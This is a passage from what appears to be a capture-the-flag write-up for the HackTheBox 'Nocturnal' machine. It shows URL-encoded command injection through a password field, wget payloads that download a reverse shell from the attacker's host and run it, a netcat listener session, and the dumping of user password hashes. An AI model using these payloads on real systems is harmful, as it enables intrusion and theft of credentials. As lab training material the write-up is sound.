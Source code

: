 >Here we have to use URL encoding to pass special characters.
>`%09` is the URL encoding of space: `' '`
>`%0A` is a newline character: `'\n'`
{: .prompt-tip }

This returns the following response (shortened):

```html
<p>Backup created successfully.</p>
<a href='backups/backup_2025-04-19.zip' class='download-button' download>
Download Backup</a>
<h3>Output:</h3>
<pre>sh: 2: backups/backup_2025-04-19.zip: Permission denied
www-data
</pre>
```

This means we can execute commands on the server as `www-data`.

Now I craft a reverse shell in bash and serve it on a simple python server with `python3 -m http.server`, then we can download that reverse shell onto the server and execute it.
`password=bash%09-c%09"wget%0910.10.XX.XX:8000/revshell"%0A&backup=`

Then we can listen for connections with *netcat* and send another request to execute the script.
`password=bash%09-c%09"bash%09revshell"%0A&backup=`
>The server doesnt recognise `cmd` so you cant use that in your script - I used: *bash read line*
{: .prompt-tip }

And this gives us a reverse shell as *www-data*.
A quick orientation on the server reveals 2 things of interest. Our user has access to a database and *ispconfig* which is hosted locally as a web interface.

```sh
┌──(kali㉿kali)-[~/Desktop/HTB/Nocturnal]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.11.64] 47058

pwd
/var/www/nocturnal.htb

cd ..
ls -la
total 24
drwxr-xr-x  6 ispconfig ispconfig 4096 Apr 14 09:26 .
drwxr-xr-x 14 root      root      4096 Oct 18  2024 ..
drwxr-xr-x  2 root      root      4096 Mar  4 15:02 html
lrwxrwxrwx  1 root      root        34 Oct 17  2024 ispconfig -> /usr/local/ispconfig/interface/web
drwxr-xr-x  4 www-data  www-data  4096 Apr 20 10:26 nocturnal.htb
drwxr-xr-x  2 www-data  www-data  4096 Apr 20 10:30 nocturnal_database
drwxr-xr-x  4 ispconfig ispconfig 4096 Oct 17  2024 php-fcgi-scripts
```

Firstly lets explore the database - It's a small database of users, so I just used *cat* on the server to get the hashes. This reveals the password hashes of 3 default users: **admin, amanda, tobias** 
